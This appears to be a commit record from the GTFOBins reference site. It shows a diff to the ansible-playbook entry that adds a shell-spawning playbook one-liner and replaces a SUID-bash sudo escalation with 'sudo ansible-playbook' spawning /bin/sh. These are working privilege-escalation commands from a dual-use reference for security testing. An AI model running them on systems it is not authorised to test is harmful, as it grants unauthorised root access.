

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/ansible-playbook.md, in a window 1280 px wide. Shown: the top 593 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Simplify ansible-playbook

```diff
--- a/_gtfobins/ansible-playbook.md
+++ b/_gtfobins/ansible-playbook.md
@@ -1,16 +1,13 @@
 ---
 functions:
+  shell:
+    - code: |
+        TF=$(mktemp)
+        echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
+        ansible-playbook $TF
   sudo:
-    - description: Running this command will make a copy of bash with SUID permessions, since you copied it as the sudo user; you will be able to get shell as this user.
     - code: |
-        echo "---" >> shell.yml
-        echo "- name: shell">> shell.yml
-        echo "  hosts: localhost" >> shell.yml
-        echo "  become: yes" >> shell.yml
-        echo " " >> shell.yml
-        echo "  tasks:" >> shell.yml
-        echo "  - name: hack" >> shell.yml
-        echo "    shell: 'cp /bin/bash . && chmod +sx bash'" >> shell.yml
-        sudo /usr/bin/ansible-playbook shell.yml
-        ./bash -p
+        TF=$(mktemp)
+        echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
+        sudo ansible-playbook $TF
 ---
```
